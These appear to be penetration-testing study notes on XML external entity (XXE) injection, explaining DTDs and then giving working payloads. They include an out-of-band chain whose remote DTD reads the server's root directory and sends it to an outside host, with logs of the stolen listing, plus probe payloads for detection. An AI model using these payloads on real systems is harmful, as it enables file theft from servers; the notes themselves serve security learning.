 #### 1.1. Intro

- web applications that parse XML must disable the processing of external entities

- external XML entities (XXE) can instruct the parser to perform other actions than indented by design, such as:
  - retrieval of local files
  - processing of remote DTD (`<!DOCTYPE` definition) form HTTP/FTP

- XXE allows an attacker to exfiltrate sensitive information from the system (private SSL/SSH keys, source-code, configuration files, credentials)

- this attack can use the same exploitation vectors as SSRF
  - `file://`, `http://`, `https://`, `ftp://`

- it is possible that some frameworks will automatically parse XML (w/ `Content-Type: text/xml` or `Content-Type: application/xml`)


#### 1.2. About DTD

The Document Type Definition (DTD) enforces the types of elements and attributes for an XML document to be valid.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE person SYSTEM "person.dtd">
<person>
  <firstname>Thomas</firstname>
  <lastname>Jefferson</lastname>
</person>
```

And `person.dtd`:
```xml
<!DOCTYPE person
[
  <!ELEMENT person (firstname,lastname)>
  <!ELEMENT firstname (#PCDATA)>
  <!ELEMENT lastname (#PCDATA)>
]>
```

The `person.dtd` enforces the XML structure as follows:

`<!DOCTYPE person` - root element must be `person`
`<!ELEMENT person (firstname,lastname)>` - `person` element must contain `firstname` and `lastname` elements
`<!ELEMENT firstname (#PCDATA)>` - parseable character data
`<!ELEMENT lastname (#PCDATA)>` - parseable character data

Example with internal DTD declaration:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY entity_b "test2">
]>
<data>
  <a>test1</a>
  <b>&entity_b;</b>
</data>
```
When the XML is parsed the `<b>` element will appear as `<b>test2</b>` as a result of the local `entity_b` declaration (`<!ENTITY entity_b "test2">`) and usage (`<b>&entity_b;</b>`).

Local entity declaration:
```xml
<!ENTITY entity-name "entity-value">
```

Remote entity declaration:
```xml
<!ENTITY entity-name SYSTEM "URI/URL">
```


#### 1.3. XXE in action

Request contains XML with external DTD:
```
POST /login HTTP/1.1
Content-Type: text/xml
[FORMATTING CUT]

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/dtd">
<x>&trigger;</x>
```

On remote server `data` DTD file:

```
<!ENTITY % f SYSTEM "file:///">
<!ENTITY % all "<!ENTITY trigger SYSTEM 'http://172.16.201.160:8888/?%f;'>">
%all;
```
Note: 
- `python -m SimpleHTTPServer 8888` to serve this file
- once loaded, the parser will process all the entities specified in the DTD
- the DTD declares two external entities
  - `<!ENTITY % f` - will engage the `file:///` URI handler to read the contents of `/` root system directory
  - `<!ENTITY % all` - declares another entity (`trigger`) that exfiltrates the data loaded in `% f` 
  - `%all;` triggers the chained `all` and `f` entities
- the `trigger` entity is called in the user-request via `<x>&trigger;</x>`


HTTP logs:
```
172.16.201.246 - - [05/Dec/2018 04:54:27] "GET /dtd HTTP/1.1" 200 -
172.16.201.246 - - [05/Dec/2018 04:54:27] "GET /?bin%0Aboot%0Adev%0Aetc%0Ahome%0Ainit%0Alib%0Alinuxrc%0Amnt%0Aopt%0Aproc%0Aroot%0Arun%0Asbin%0Asys%0Atmp%0Ausr%0Avar%0A HTTP/1.1" 200 -
```


#### 1.4. Detection

The following payloads will only attempt to make an HTTP request to a remote server (similar to SSRF).

Payload 1 - call remote server from DTD:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
	<!ENTITY call SYSTEM "http://172.16.201.160:8888/TEST">
]>
<test>&call;</test>
```

Payload 2 - call remote server to fetch DTD (and call `go` entity inside the remote DTD once loaded):
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://172.16.201.160:8888/TEST">
<data>&go;</data>
```
